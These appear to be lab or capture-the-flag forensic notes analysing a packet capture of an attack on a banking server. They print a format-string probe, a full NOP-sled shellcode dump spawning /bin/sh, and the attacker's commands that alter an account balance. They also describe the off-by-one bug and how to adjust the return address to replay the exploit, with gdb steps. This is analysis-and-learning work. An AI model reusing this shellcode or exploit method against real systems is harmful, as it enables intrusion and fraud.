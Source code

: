 # Notes

## Enter vms

ssh user@192.168.56.102
ssh administrateur@192.168.10.100 (from analyste)

## Logs

### syslog.4

1665 Nov 11 09:52:31 New usb enter

## Traces.pcap analysis

### n°144

```
ECHO %x%x%x%x%x
8049f6714a017ffe6e615
```

### n°258

port source : 48924

NOPs
and /bin/sh at the end

```
0000   08 00 27 d6 0f 5a 54 bf 64 79 25 77 08 00 45 00   ..'Ö.ZT¿dy%w..E.
0010   01 0a 14 44 40 00 40 06 a0 91 c0 a8 01 64 c0 a8   ...D@.@. .À¨.dÀ¨
0020   02 64 bf 1c 17 70 18 f8 6b dd 61 77 a2 e3 80 18   .d¿..p.økÝaw¢ã..
0030   00 bb 0a 0a 00 00 01 01 08 0a 00 08 80 de 00 03   .»...........Þ..
0040   d1 af 90 90 90 90 90 90 90 90 90 90 90 90 90 90   Ñ¯..............
0050   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0060   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0070   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0080   90 90 eb 71 5d 31 c0 31 db 31 c9 31 d2 31 ff 31   ..ëq]1À1Û1É1Ò1ÿ1
0090   f6 b0 22 89 c6 b0 c0 b1 01 66 c1 e1 0c b2 03 4f   ö°".Æ°À±.fÁá.².O
00a0   cd 80 89 c1 31 ff b3 02 89 ca 80 c1 04 31 c0 66   Í..Á1ÿ³..Ê.Á.1Àf
00b0   b8 70 01 fe c3 c6 02 10 89 39 cd 80 39 f8 75 ed   ¸p.þÃÆ...9Í.9øuí
00c0   8b 01 3c 02 75 e7 89 ca 31 c9 31 c0 b0 3f cd 80   ..<.uç.Ê1É1À°?Í.
00d0   41 b0 3f cd 80 41 b0 3f cd 80 31 c0 89 6d 08 89   A°?Í.A°?Í.1À.m..
00e0   45 0c 88 45 07 b0 0b 89 eb 8d 4d 08 8d 55 0c cd   E..E.°..ë.M..U.Í
00f0   80 b0 01 cd 80 e8 8a ff ff ff 2f 62 69 6e 2f 73   .°.Í.è.ÿÿÿ/bin/s
0100   68 41 41 41 41 41 41 41 41 41 0a 00 00 00 0d 00   hAAAAAAAAA......
0110   00 00 8b 91 98 c3 ff 0a                           .....Ãÿ.
```

### n°290

payload="uname"

response at n°292 => Linux

### n°804

payload="chmod u+w A9826"

### n°1246

payload="echo 1000000 > A9826" // the attaquant write that the bank account A9826 contains 1000000

### n°1638

payload="chmod u-w A9826"

### n°1728

payload="exit"

## WEAKNESSES

in  traitementClient.c:sanitizeBuffer, it compares using a > and not a >= 
We replay the flow using gdb. 
We notice that in trace.pcap `ECHO %x%x%x%x %x`. returns `8049f6713b018 ffc39895` while on our computer it returns `8049f67160018 ffffd365`. -- voir image serveur_ECHO_return.png
This address is found again at the end of the payload we send, but backwards.  --voir image wireshark_trace_tcp
On va donc modifier la payload qu'on envoie pour changer cette adresse moins 4 (décalage). 

## GDB

gdb peda installé par défaut sur l'analyste
gdb ./serveur

set follow-fork-mode child # to follow the child when forking
b doEcho # put a breakpoint at the doEcho function
run # launch the server
target record-full # allows to go back one step

ni # next iteration, step over to the next assembly instruction
n # next step, only available if program was compiled with debugging options

reverse-step # goes back one iteration
reverse-next # goes back one step

delete [breakpoints] [range...]

print msg.buffer / print &msg.buffer / print *msg.buffer # to check values

